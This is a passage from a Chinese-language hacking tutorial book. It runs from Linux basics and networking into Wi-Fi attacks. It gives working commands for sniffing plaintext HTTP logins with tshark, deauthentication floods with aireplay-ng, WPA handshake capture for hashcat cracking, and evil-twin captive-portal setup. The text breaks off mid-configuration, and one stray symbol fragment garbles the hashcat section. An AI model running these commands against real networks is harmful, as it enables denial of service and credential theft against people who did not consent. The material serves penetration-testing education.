《面向黑客的 Linux 入门：网络、WiFi 破解与 Python 脚本》

版权所有 © 2025 Nicolae Juravlea

保留所有权利。未经出版商事先书面同意，不得以任何形式复制、存储于检索系统或共享本书或其任何部分。在评论文章或书评中使用的简短引用除外。

我们已尽力确保本书信息的准确性。然而，本书内容按“原样”提供，不附带任何明示或暗示的保证。作者及其分销商对因使用本书而造成的任何损害不承担责任。

由 Nicolae Juravlea 出版

---


## 免责声明

本书纯粹出于教育目的而编写。此处描述的方法仅应在获得网络所有者明确许可的环境中使用。

您不得滥用这些信息以获取未经授权的访问。但是，您可以自行承担风险，在自己的计算机上尝试这些破解技术。

未经许可对您不拥有的计算机执行破解尝试是非法的。

# 目录

第 1 章：简介

Linux 入门

每位黑客都需要的网络基础知识

监控网络必备的 Tshark 命令

使用 Tshark 捕获用户名和密码

第 2 章：WiFi 破解

测试您的无线网卡

对无线网络执行拒绝服务攻击

使用 Hashcat 破解 WiFi 密码

邪恶双胞胎与强制门户简介

使用 Hostapd 设置接入点

设置强制门户登录页面

使用 PHP 脚本从强制门户捕获登录信息

第 3 章：密码哈希与破解

使用 Hashcat 破解密码哈希

使用 John the Ripper 破解 Windows 密码

使用 John the Ripper 破解 Linux 密码

破解受密码保护的 ZIP 文件

使用 Kali Linux 绕过 Windows 密码

第 4 章：Python 脚本

带操作系统检测的网络扫描器

构建 FTP 破解器

使用 Python 创建键盘记录器

创建自定义字典

使用 Python 自动化 WiFi 破解

伪造强制门户（Flask）

第 5 章：反向 Shell

反向 Shell 的工作原理

使用 Python 创建反向 Shell

使用 Metasploit 创建反向 Shell

在 Linux 上检测反向 Shell

第 6 章：安全

使用 GPG 加密和解密文件

使用 Steghide 将秘密数据隐藏在图片中

使用 Wireshark 检测恶意 WiFi 攻击

保护您的 WiFi 免受暴力破解攻击

密切关注您的日志

---

|  | |  |


# 第 1 章：简介


如果您是网络安全、黑客技术的新手，甚至只是对使用终端感到陌生，这可能会让您感到畏惧。但这里有个秘密：Linux 并非只为黑客而生。它属于那些渴望理解计算机如何真正运作的好奇心灵。

黑客使用 Linux 并非因为它很酷（尽管确实如此），而是因为它赋予他们控制权。在 Windows 或 macOS 中，许多操作都隐藏在漂亮的按钮和菜单之后。但在 Linux 中？您才是掌控者。

您可以确切地看到事物如何运作，并且可以让系统按照您的意愿行事，而非相反。以下是 Linux 成为黑客首选的原因：

## 它为命令行而生

黑客钟爱命令行。它快速、精确且强大，有点像为计算机编写咒语。Linux 为您提供了一个开放、灵活且与系统核心深度连接的终端。这意味着您可以自动化任务、深入文件、探索网络，并发起攻击或防御。

## 它自带黑客工具

像 Kali Linux 或 Parrot OS 这样的发行版就是为黑客打造的。它们预装了数百种工具，用于扫描网络、破解密码、嗅探流量等等。虽然您也可以在其他系统上安装这些工具，但 Linux 才是它们本应运行的地方。

## 它是开源的

Linux 就像一台透明的机器：您可以打开引擎盖，研究引擎，并更改任何您想要的东西。对于黑客来说，这种开放性是无价之宝。您可以从系统本身学习，在安全的环境中破坏事物，并构建自己的工具，而无需面对权限壁垒或隐藏代码。

## 它安全且可编写脚本

Linux 在设计时就考虑到了安全性。它为您提供对用户、权限和访问的精细控制。此外，它非常适合编写脚本或使用 Bash 和 Python 来自动化任务、运行扫描或创建您自己的黑客工具。这就是为什么许多真正的黑客会编写自己的工具，而不仅仅是点击按钮。

## 快速提醒

本书的课程基于一个名为 Kali Linux 的操作系统，它是黑客和渗透测试人员的最爱。Kali 内置了大量黑客工具，因此您无需下载或安装额外的程序——开箱即用。

Kali Linux 可以从官方网站的下载页面下载，地址为[`www.kali.org/downloads`](https://www.kali.org/downloads)。让我们开始吧！

---

|  | |  |


# Linux 入门


如果您是 Linux 新手，使用命令行可能感觉像在说一门不同的语言。但好消息是：一旦您学会了一些基本命令，您就会开始感到掌控自如。让我们从最实用且对初学者友好的文件操作开始。

注意：对于已经熟悉`ls`、`cd`、`mv`和`rm`等基本命令的读者，请直接跳到高级黑客章节，获取更精彩的内容。

## 切换目录 – `cd`

功能：将您移动到另一个文件夹。

可以理解为：在文件资源管理器中双击一个文件夹。

示例：

```
cd Documents
```



这会将您带入当前目录下的`Documents`文件夹。要返回上一级目录：

```
cd ..
```

要一直返回到您的主目录：

```
cd
```

## 列出内容 – `ls`

功能：显示当前文件夹中的内容。

可以理解为：打开一个文件夹并查看所有文件。

示例：

```
ls
```



要查看更详细的信息，如文件大小和权限：

```
ls -l
```

如果您想查找隐藏文件，请使用：

```
ls -a
```

## 复制文件和文件夹 – `cp`

功能：创建文件或文件夹的副本。

可以理解为：复制 + 粘贴。

示例：

```
cp myscript.py backup.py
```



这会复制`myscript.py`并将新文件命名为`backup.py`。要复制整个文件夹及其内容：

```
cp -r folder1/ folder2/
```


`-r` 表示递归——复制内部所有内容。

## 移动或重命名 – `mv`

**功能：** 移动或重命名文件和文件夹。

**可以理解为：** 拖放或重命名。

**示例：**

```
mv notes.txt Documents/
```



这会将 `notes.txt` 移动到 `Documents` 文件夹中。

要重命名文件：

```
mv oldname.txt newname.txt
```

## 删除（移除） – `rm`

**功能：** 删除文件或文件夹。

**注意！** 没有回收站——这是永久删除。

**示例：**

```
rm test.txt
```



删除 `test.txt`。要删除一个文件夹及其所有内容：

```
rm -r old_folder/
```

## 小练习

打开你的终端，尝试以下命令：

```
cd  # 进入你的主文件夹
mkdir mypractice  # 创建一个新文件夹
cd mypractice
touch hello.txt  # 创建一个新文件
ls  # 列出文件以确认其存在
cp hello.txt copy.txt  # 复制文件
mv copy.txt newname.txt # 重命名复制的文件
rm hello.txt    # 删除原始文件
cd ..
rm -r mypractice    # 删除整个文件夹
```

如果你能执行这些命令，那么你已经掌握了大多数人每天在终端中使用内容的 80%。

**专业提示：** 你随时可以输入 `man <命令>`（例如 `man ls`）来直接在终端中了解更多关于任何命令的信息。

## 通配符

有时你不想输入每一个文件名，尤其是在有几十个文件的时候。通配符允许你匹配模式而不是名称。`*` 通配符代表“所有内容”。这里有一个例子：

```
ls *.txt
```

此命令列出所有以 `.txt` 结尾的文件，例如 `notes.txt`、`report.txt`。

要删除所有以“myfile”开头的文件，请使用：

```
rm myfile*
```

这会删除以 `myfile` 开头的文件，例如 `myfile1`、`myfile_backup` 等。

## 管道

管道允许你将一个命令的输出发送到另一个命令。这在 Linux 中非常重要。

**示例：**

```
cat access.log | grep "404"
```

此命令仅显示 `access.log` 文件中的“404”错误。

**另一个示例：**

```
ps aux | grep python | head -5
```

这将显示包含“python”的运行进程，并限制为前 5 个结果。

## 将输出保存到文件

```
ls > files.txt
```

这会将 `ls` 命令的结果保存到名为 `files.txt` 的文件中。

## Linux 权限

在 Linux 中，有三种类型的权限：

| 符号 | 权限 | 含义 |
| :--- | :--- | :--- |
| `r` | 读取 | 可以查看文件内容 |
| `w` | 写入 | 可以更改或删除文件 |
| `x` | 执行 | 可以运行程序或脚本 |

**示例：**

假设你有一个名为 `notes.txt` 的文件，你输入：

```
ls -l notes.txt
```

输出将是：

```
-rw-r—r—1 alex alex 1234 May 21 10:00 notes.txt
```

让我们分解一下：

*   `-rw-r—r—` = 权限。
*   第一个 `rw-` → 所有者（Alex）可以读取 + 写入。
*   第二个 `r—` → 组用户只能读取。
*   第三个 `r—` → 其他用户（所有人）只能读取。

所以，Alex 可以打开和编辑它，而其他人只能打开它，不能更改它。

### 更改权限

如果你想为脚本添加执行权限，请使用：

```
chmod +x myscript.sh
```

现在你可以这样运行它：

```
./myscript.sh
```

脚本具有执行权限，应该可以毫无问题地运行。

### 移除执行权限

假设你不想让任何人运行这个脚本；你只想让它可查看或可编辑。为此，请使用：

```
chmod -x myscript.sh
```

现在，脚本的执行权限已被移除。

### 移除所有权限

如果你想让一个文件对除 root 以外的所有人都完全无法访问，请使用：

```
chmod 000 myscript.sh
```

此命令移除所有权限——无读取、无写入、无执行。现在尝试打开它，Linux 会说：“权限被拒绝。”

 


# 每个黑客都需要的网络基础


在你深入研究黑客工具或尝试入侵任何东西（当然是合乎道德的）之前，有一件事你绝对需要首先理解：网络。

把互联网想象成一个巨大的计算机网络，它们彼此对话。黑客行为通常涉及拦截、理解或操纵这种对话，而要做到这一点，你必须会说这种语言。

无论你是在扫描开放端口、嗅探数据包，还是编写自己的脚本来利用有漏洞的服务，网络知识都是你的基础。让我们开始吧！

## IP 地址

IP 地址（互联网协议地址）就像你的设备在网络上的家庭地址。

它告诉其他计算机在哪里可以找到你的设备，就像门牌号告诉邮递员在哪里投递包裹一样。

**示例：**

```
192.168.1.100
```

这可能是你的计算机在家庭 Wi-Fi 上的本地 IP。

像 `google.com` 这样的网站也有 IP（例如 `142.250.64.78`），但我们不记忆这些，这就是 DNS 的作用（下面会详细介绍）。

你的公共 IP 是互联网上其他人看到的。你可以通过搜索“我的 IP 是什么”来找到它。

## MAC 地址

MAC 地址（媒体访问控制地址）就像你的设备网卡（连接 Wi-Fi 或以太网的部分）的指纹或序列号。

它永远不会改变，并且在你的本地网络中用于唯一标识每个设备。

看起来像这样：

```
00: 1A:2B:3C:4D:5E
```

你的路由器使用 MAC 地址来识别哪个设备是哪个，即使两台笔记本电脑在不同时间具有相同的 IP 地址。

## DNS：互联网的电话簿

DNS 代表域名系统。它将易于记忆的名称转换为：

```
google.com
```

转换为实际的 IP 地址，例如：

```
142.250.64.78
```

因此，当你输入 `www.google.com` 时，DNS 会找到该网站的正确 IP，就像电话簿将姓名与电话号码匹配一样。

你可以用以下命令测试：

```
nslookup google.com
```

你会看到它的真实 IP 地址。

## 端口：公寓号码

如果你的 IP 地址就像你大楼的地址，那么端口就像里面的公寓号码。

它告诉你的计算机连接是针对哪个服务或应用程序的。

*   端口 80 = 网站（HTTP）
*   端口 443 = 安全网站（HTTPS）
*   端口 22 = 远程登录（SSH）
*   端口 25 = 电子邮件（SMTP）

因此，当你通过 HTTPS 连接到 `google.com` 时，你的浏览器实际上是在与以下地址通信：

```
google.com:443
```

## 综合运用

假设你的计算机（`192.168.1.10`，MAC `00:1A:2B:3C:4D:5E`）想要访问 `youtube.com`。

以下是发生的过程：

1.  DNS 将 `youtube.com` 转换为 `142.250.190.78`
2.  你的计算机向该 IP 的 443 端口发送请求（因为这是一个安全站点）。
3.  你的路由器使用你的 MAC 地址来确保回复发送到正确的设备。

## 如何查看谁在线

在你能够与网络上的任何设备交互或探索之前，你需要知道它的存在。这就是 ping 和扫描的作用。这些是敲门的数字版本。

让我们以一种完全合理的方式来分解它们，即使你是新手。

### Ping

Ping 是互联网版本的询问：“嘿，你在线吗？”

它向设备发送一个小数据包（称为 ICMP 回显请求），如果它回复，你就知道它是在线且可达的。

**示例：**

```
ping google.com
```

或者 ping 你的路由器：

```
ping 192.168.1.1
```

你会得到类似这样的结果：

```
64 bytes from 142.250.64.78: icmp_seq=1 ttl=117 time=22.1 ms (google)
64 bytes from 192.168.1.1: icmp_seq=1 ttl=117 time=22.1 ms (router)
```

这意味着设备在线且可达。

### 扫描网络

最著名的扫描工具之一是 `nmap`。使用以下命令进行基本扫描：

```
nmap 192.168.100.1
```



这会扫描一个本地 IP 以查看正在运行的服务。

要扫描整个网络，请使用：

```
nmap 192.168.100.0/24
```

这会检查该子网上的每个设备（例如，你的整个家庭或办公室网络）。你可以发现网络上的活动设备并查看哪些端口是开放的。

### 全面的 Nmap 扫描

如果你想使用 `nmap` 发现 IP 背后的每个服务和操作系统（OS），请使用：

```
nmap -p- -A -T3 192.168.100.27
```


这个 `nmap` 命令会扫描目标机器上的每一个端口，并尝试识别其运行的操作系统、服务和软件版本。

`-T3` 选项让 `Nmap` 以正常、可靠的速度运行，而 `-A` 则启用更深入的扫描，以提供详细信息。

## Linux 上的网络接口

网络接口就像是你的 Linux 系统用来连接网络的门或窗。它可以是：

*   有线（以太网线）—— `eth0` 或 `enp0s3`。
*   无线（Wi-Fi）—— `wlan0` 或 `wlp3s0`。
*   虚拟（用于黑客工具或 VPN）—— 比如 `tun0`、`lo` 或 `br0`。

让我们来看看在 Linux 上管理和理解网络接口最有用的命令。

### 经典工具

使用 `ifconfig` 来查找关于网络接口的信息。

```
ifconfig
```

你可能会看到：

```
eth0:  inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
wlan0: inet 192.168.1.12  ...
```

这会告诉你哪些接口正在运行。要启用或禁用接口，使用：

```
ifconfig eth0 down  # 禁用以太网
ifconfig eth0 up    # 再次启用
```

注意：`ifconfig` 较为老旧，在现代系统上可能默认未安装，如果遇到这种情况，请改用 `ip`。

### 现代替代品

`ip` 是一种更新、更强大的处理接口的方式。

```
ip a
```

你会看到类似这样的输出：

```
eth0: <BROADCAST,MULTICAST,UP> ...
inet 192.168.1.10/24 brd 192.168.1.255 scope global
```

分配 IP 地址：

```
ip addr add 192.168.1.100/24 dev eth0
```

启用/禁用接口：

```
sudo ip link set eth0 down
sudo ip link set eth0 up
```

在脚本或更高级的工作中使用 `ip`，它在现代系统上更可靠。

### 无线接口

`iwconfig` 命令用于显示和配置 Wi-Fi 接口（如 `wlan0`）。

示例：

```
iwconfig
```

你会看到：

```
wlan0  IEEE 802.11  ESSID:"MyWiFi"  Mode:Managed  ...
```

它告诉你模式（通常“Managed”表示已连接到路由器）。

# 监控网络的基本 Tshark 命令

如果你曾想看看网络上到底发生了什么——比如访问了哪些网站，或者是否有可疑活动——`tshark` 可以帮你找出答案。

可以把 `tshark` 想象成 Wireshark 的命令行版本，Wireshark 是网络安全领域最强大的网络嗅探工具之一。但与 Wireshark 不同，`tshark` 完全在终端中工作，这使其非常适合：

*   轻量级系统（如树莓派或远程服务器）。
*   自动化和脚本编写。
*   快速、简洁的网络分析。

因此，在本节中，我将介绍监控网络的基本 `tshark` 命令。让我们开始吧。

## 查看所有网络流量

```
tshark -i eth0
```

这会实时捕获接口 `eth0` 上的所有数据包。你会看到 DNS 请求、HTTP 页面等流量。将 `eth0` 替换为你实际的网络接口（`wlan0`、`enp0s3` 等）。使用 `Ctrl + C` 停止捕获。

## 仅捕获 HTTP 流量

```
tshark -i wlan0 -Y "http"
```

过滤实时流量，仅显示 HTTP 请求和响应，非常适合实时查看正在访问的网站。

## 监控来自特定 IP 的流量

```
tshark -i eth0 host 192.168.1.12
```

这会捕获与特定设备之间的所有数据包。对于跟踪网络中某台机器的活动很有用。

## 将捕获保存到文件

```
tshark -i eth0 -w capture.pcap
```

将所有捕获的流量记录到 `.pcap` 文件中，以便后续分析（在 Wireshark 或 `tshark` 中）。这对于较长的会话或离线审查很有用。

## 从捕获文件读取

```
tshark -r capture.pcap
```

加载并显示已保存的捕获文件中的数据包。

## 监控 DNS 查询

```
tshark -i eth0 -Y "dns"
```

显示设备进行的 DNS 查找。这是实时查看网络上正在访问哪些网站的好方法。

# 使用 Tshark 捕获用户名和密码

许多对初学者友好的网站或较旧的 Web 应用程序仍然使用 HTTP，它在不加密的情况下传输数据。

当用户登录 HTTP 网站时，他们的用户名和密码以明文形式发送，这意味着任何嗅探网络的人都可以读取它们。那么，让我们看看如何在网络上捕获用户名和密码。

打开你的 Linux 终端并输入以下命令：

```
tshark -i wlan0 -Y "http.request.method == POST" -T fields -e http.host -e http.request.uri -e http.file_data
```

此命令监听你的 Wi-Fi 网络流量（`wlan0`）并过滤 HTTP POST 请求，这些请求通常在有人登录网站或提交表单时使用。

现在，我将打开 Firefox 浏览器并尝试登录一个 HTTP 网站（http://testaspnet.vulnweb.com/login.aspx）。我将输入“Jack”作为用户名，“letmein123”作为密码。

让我们回到运行 `tshark` 的终端。

如你所见，我已成功捕获了登录凭据。

防御这种数据包嗅探的最佳方法是始终使用具有 HTTPS 的网站，而不仅仅是 HTTP。

当网站使用 HTTPS（“S”代表安全）时，你发送的所有数据（如用户名、密码和消息）都会被加密。这意味着即使有人在嗅探网络，他们也只能看到乱码数据，而不是可读的信息。

# 第 2 章：Wi-Fi 黑客攻击

Wi-Fi 网络无处不在——在家庭、办公室、机场和公共场所。正因为它们如此普遍，它们也成为黑客的主要目标。

因此，在本节中，你将学习最常见的 Wi-Fi 攻击，例如：

*   **取消认证攻击：** 使用 `aireplay-ng` 等工具强制某人断开 Wi-Fi 网络连接，然后诱骗他们连接到一个伪造的网络。
*   **密码破解：** 黑客在设备连接时捕获“握手”，然后使用 `hashcat` 等工具离线尝试猜测密码。
*   **邪恶双胞胎攻击：** 攻击者创建一个与合法网络同名的伪造 Wi-Fi 网络（例如“Starbucks_WiFi”）。如果你连接，他们可以拦截你的一切操作。
*   **强制门户黑客攻击：** 这是黑客设置伪造登录页面（如酒店或机场使用的那种）的情况。你以为它只是要求提供你的电子邮件，但它可能在后台窃取你的真实密码。

了解 Wi-Fi 攻击的工作原理就像学习骗子使用的伎俩，一旦你了解了它是如何运作的，就更容易保护自己。

# 测试你的无线适配器

无线渗透测试所需的最重要功能是确定你的 Wi-Fi 网卡是否支持监听模式和数据包注入。通常，台式机或笔记本电脑制造商提供的内置 Wi-Fi 网卡默认禁用监听模式。

要理解什么是监听模式，你需要将适配器的操作从“正常”（称为“托管模式”）切换到监听模式。

监听模式使无线网卡能够在不与接入点关联的情况下被动捕获数据包。这就像在街上走时听别人的谈话。


数据包注入允许你制作并注入或发送数据到附近的无线设备和网络。数据包注入通常用于中间人攻击和拒绝服务攻击。

## 确定芯片组

芯片组很重要，因为它将决定无线网卡是否支持监听模式和数据包注入。

最好的芯片组，也是大多数 Wi-Fi 渗透测试人员使用的，是`Atheros AR9271`。该芯片组支持数据包注入、监听模式和主模式，这使得它可以用作接入点来创建用于邪恶双胞胎攻击的虚假热点。

`Alfa AWUS036NHA` USB 适配器采用了`Atheros AR9271`芯片组。它稳定、快速，并且是支持良好的无线网络适配器。

还有`TP-Link TL-WN722N`无线适配器，它价格最便宜之一，但性能却出奇地出色。话虽如此，只有 v1 版本使用了 Atheros 芯片组，因为 v2 版本使用了不同的芯片组。

## 将你的网卡设置为监听模式

在这一步，我们将使用`airmon-ng`，但在此之前，你需要找到接口的名称。在你的系统上，在终端中运行命令`ifconfig`。在你的 Linux 系统上，你的网卡应该被列为`wlan0`或`wlan1`。

```
ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe59:1b52  prefixlen 64  scopeid 0x20<link>
        ether 86:09:15:d2:9e:97  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether EE-A5-3C-37-34-4A  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
```

一旦你有了网络接口的名称，你可以尝试通过输入`airmon-ng start wlan0`（假设你的接口名称是`wlan0`）将其设置为监听模式。

```
airmon-ng start wlan0
```

你可以通过输入`iwconfig`来确认结果，你应该会看到你的接口名称已更改为`wlan0mon`。它还应该报告“Mode:Monitor”。

```
iwconfig
```

```
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm
          Retry short  long limit:2  RTS thr:off  Fragment thr:off
          Power Management:off
```

## 测试你的网卡是否支持数据包注入

将你的网卡设置为监听模式后，你可以运行一个测试，看看无线网卡是否能够向附近的无线网络注入数据包。

因此，在终端窗口中，输入`aireplay-ng --test wlan0mon`来启动数据包注入测试。

```
aireplay-ng --test wlan0mon
```

```
12:47:05  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE) on channel 6
12:47:05  Trying broadcast probe requests...
12:47:06  Injection is working!
12:47:07  Found 1 AP
12:47:07  Trying directed probe requests...
12:47:07  AA:BB:CC:DD:EE - channel: 6 - 'Dobis'
12:47:08  Ping (min/avg/max): 0.891ms/15.899ms/32.832ms  Power: -21.72
12:47:08  29/30:  97%
```

如果你得到类似上面的结果，那么恭喜你，你的网卡已成功向附近网络注入数据包。

# 对无线网络执行拒绝服务攻击

去认证攻击是一种针对用户与无线 Wi-Fi 接入点之间通信的拒绝服务攻击。去认证是一个涉及路由器或 AP 告诉 Wi-Fi 用户断开连接的请求。

该过程的特点是去认证数据包导致目标客户端与接入点失去连接。

## 接入点去认证

攻击者可以向接入点发送去认证请求。此操作导致 AP 向所有连接到无线网络的设备发送去认证响应。

这意味着恶意行为者可以转发无限数量的去认证请求，而设备将无法连接到 AP，从而导致 DoS 攻击。

## 客户端去认证

攻击者向已连接设备的接入点发送请求，要求 AP 对已连接设备进行去认证。

通常，可以发送的去认证数据包数量没有限制。

同时，用户的设备从 AP 接收到去认证响应数据包后，将无法同时向同一 AP 发送认证数据包。此过程使得设备无法连接到该 AP。

## 如何执行攻击

首先，你需要使用`airmon-ng`将无线网卡设置为监听模式。

```
airmon-ng start wlan0
```

此命令会将你的无线接口名称更改为`wlan0mon`。

### 扫描 WiFi 网络

使用`airodump-ng`扫描范围内的所有接入点。

```
airodump-ng wlan0mon
```

你会得到一堆不同的接入点以及很多你不理解的信息！让我们来分解一下。

- `BSSID` — 接入点的 MAC 地址
- `PWR` — 信号强度
- `Beacons` — 路由器发送出来以宣告其存在的数据包
- `CH` — 信息正在广播的信道
- `AUTH` — MGT 表示托管模式，PSK 表示预共享密钥
- `ESSID` — 接入点的网络名称
- `STATION` — 客户端的 MAC 地址

找到你想执行 DoS 攻击的目标后，按`Ctrl+c`停止扫描。

### 去认证 AP 上的所有用户

要从 AP 上去认证所有用户，你需要发送数千个去认证帧，以防止任何人重新连接到 AP。你可以通过在另一个终端中输入以下命令来完成此操作。

```
aireplay-ng --deauth 2000 -a 28:EF:01:35:34:85 wlan0mon
```

此命令将断开所有人与接入点（Orange-Net）的连接。

### 断开无线客户端连接

找到你想要从网络中踢出的设备的 MAC 地址。

为此，请查看`airodump-ng`扫描屏幕的底部，并从`STATION`中选择 MAC 地址。（目标的 MAC 地址将在“STATION”字段中）。

因此，如果你知道路由器的 MAC 地址和设备的 MAC 地址，请使用以下命令：

```
aireplay-ng --deauth 2000 -a [ROUTER_BSSID] -c [TARGET_MAC_ADDRESS] wlan0mon
```

```
aireplay-ng --deauth 2000 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0mon
```

`2000`代表去认证数据包的数量。

`-c`是你想要从网络中踢出的客户端。

`-a`是受害者连接的路由器。

`wlan0mon`是处于监听模式的无线网卡的名称。

# 使用 Hashcat 破解 WiFi 密码

`Hashcat`是一个强大的密码恢复工具，可以帮助你恢复各种平台（包括 Windows、Linux 和 macOS）上丢失或遗忘的密码。

`Hashcat`也是少数可以使用 GPU 工作的工具之一，并提供了多种从哈希值中查找密码的方法。

破解哈希值最简单的方法是首先尝试猜测密码。字典攻击和暴力破解攻击是最常见的密码猜测方法。

这些技术利用一个包含单词、短语、常用密码以及其他可能用作密码的字符串的文件。

## 启用监听模式

首先，你需要使用以下命令将你的无线网卡设置为监听模式。

```
airmon-ng start wlan0
```

我将假设你的无线接口名称是`wlan0`，但如果不同，请确保使用正确的名称。你可以使用`iwconfig`命令来查找无线接口名称。

## 找到你的目标

使用以下命令开始扫描附近的无线路由器。

```
airodump-ng wlan0
```

这将显示范围内所有 Wi-Fi 路由器的数据表。


在本演示中，我将选择破解我的网络密码，网络名称为“SkyNet”。

接下来，我需要从网络中获取接入点 MAC 地址（BSSID）和信道。让我们打开另一个终端并输入：

```
airodump-ng—bssid 28:EF:01:35:34:85 -c 6—write wpa-01 wlan0
```

`— write wpa-01` 是你写入数据的文件名，四次握手数据也将存储于此。


你可以使用 `ls` 命令查看该文件，后续你需要将其转换为不同格式才能破解密码。

## 捕获 WPA/WPA2 握手

WPA/WPA2 使用四次握手来认证设备到网络。为了捕获四次认证握手，你需要让客户端向接入点（AP）进行认证。

如果它们已经认证，你可以取消它们的认证（将它们踢下线），然后它们的系统会自动重新认证，在此过程中你就可以捕获四次握手。打开另一个终端并输入：

```
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
```



在上面的屏幕中，注意右上角的“WPA handshake: 28:EF:01:35:34:85”。这意味着 `airodump-ng` 已成功捕获握手。

## 将 .cap 文件转换为 .hccap 格式

在破解密码之前，你需要将 `.cap` 文件（`wpa-01.cap`）转换为 hashcat 文件格式 `.hc22000`。这可以通过将 `.cap` 文件上传到 [`hashcat.net/cap2hashcat`](https://hashcat.net/cap2hashcat) 并转换为 `.hc22000` 格式来快速完成。

*+,-./:;<=>?@[\]^_`{&#124;}~ 
```

假设你的密码是 `87654321`。你可以使用自定义掩码，如 `?d?d?d?d?d?d?d?d`

这意味着你正在尝试破解一个 8 位数字密码，如 `87654323` 或 `43446789`...

 | | 


# Evil Twin 和强制门户简介


Evil Twin（邪恶双胞胎）是一个伪造的无线接入点，它伪装成由合法提供商提供的真实热点。

其思想是设置一个与原始网络具有相同 SSID 名称的恶意无线网络。

连接到 Wi-Fi 网络的设备（如笔记本电脑、平板电脑和智能手机）无法区分两个具有相同 SSID 名称的 Wi-Fi 网络。

这使得黑客能够设置恶意无线网络，从而捕获流量并从受害者那里提取敏感信息。

## 攻击方法论

1.  攻击者扫描空中获取目标接入点信息，如 SSID 名称、信道号和 MAC 地址。
2.  然后他使用这些信息创建一个具有相同特征的接入点。
3.  合法 AP 上的客户端被反复断开连接，迫使它们连接到恶意接入点。
4.  一旦客户端连接到伪造的接入点，她/他可能开始浏览互联网。
5.  客户端打开浏览器窗口，看到一个网页登录页面，上面写着“请登录以访问互联网”。
6.  客户端输入密码后，她/他将被重定向到一个加载页面，密码则存储在攻击者机器的数据库中。

## 强制门户

强制门户是一个网页，在新连接的 Wi-Fi 网络用户被授予网络访问权限之前显示给他们。

强制门户通常由商务中心、机场、酒店大堂、咖啡店和其他提供免费 Wi-Fi 热点的场所使用。

用户可以无需密码自由连接到这些网络，并且通常会被引导到一个登录页面，要求输入密码才能浏览网页。

使用这类网络的危险在于，攻击者可以创建一个具有相同登录页面的接入点克隆，并诱骗用户连接到伪造的网络。

 | | 


# 使用 Hostapd 设置接入点


在本章中，你将学习如何使用 `hostapd` 设置 Wi-Fi 接入点，这是一个在 Linux 系统上创建 Wi-Fi 网络的流行开源软件包。

## 安装 Hostapd 和 Dnsmasq

要使接入点工作，你需要两个组件：

*   `hostapd` — 接入点软件。
*   `dnsmasq` — 一个 DHCP 服务器，将为客户端提供 IP 地址。

因此，启动 Linux 系统，在终端中输入：

```
apt install dnsmasq hostapd
```

## 设置接入点

运行 `iwconfig` 命令查看可用的无线网络接口（`wlan0`、`wlan1`...）。



使用支持接入点模式的无线设备。在我的例子中，我使用的是芯片组为 Atheros AR9271 的无线适配器，接口名称为 `wlan0`。

一旦你确定了你的无线接口，使用终端中的 `nano` 文本编辑器设置配置文件。

```
nano dnsmasq.conf
```

并添加以下行。

```
#Set the wireless interfaceinterface=wlan0#Set the IP range for the clientsdhcp-range=192.168.1.2,192.168.1.250,12h#Set the gateway IP addressdhcp-option=3,192.168.1.1#Set DNS server addressdhcp-option=6,192.168.1.1
```

此配置文件将告诉 `dnsmasq` 使用 `wlan0` 设备，并开始向范围在 `192.168.1.2` 到 `192.168.1.250` 之间的客户端分配 IP 地址。别忘了保存文件。

接下来，我将创建另一个配置文件，这次名为 `hostapd.conf`。打开终端窗口，使用 `nano` 创建文件。

```
nano hostapd.conf
```

添加以下行：

```
